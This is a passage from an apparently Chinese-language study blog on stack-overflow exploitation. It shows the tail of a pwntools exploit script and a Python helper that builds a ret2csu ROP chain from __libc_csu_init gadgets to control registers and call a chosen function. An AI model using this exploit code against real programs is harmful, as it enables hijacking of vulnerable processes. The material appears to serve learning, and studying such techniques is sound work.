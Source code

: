 ```python
conn.send(payload5)
sleep(0.2)
conn.interactive()
```



libc_csu_init中我们主要利用了以下寄存器
利用尾部代码控制了rbx，rbp，r12，r13，r14，r15。
利用中间部分的代码控制了rdx，rsi，edi。
通常这样构造的rop链也特别的长，所以一般写成封装函数，调用的时候比较方便

```python
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp  #填充垃圾字符串
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)

```


> 关于栈溢出的学习先告一段落，先缓缓.....
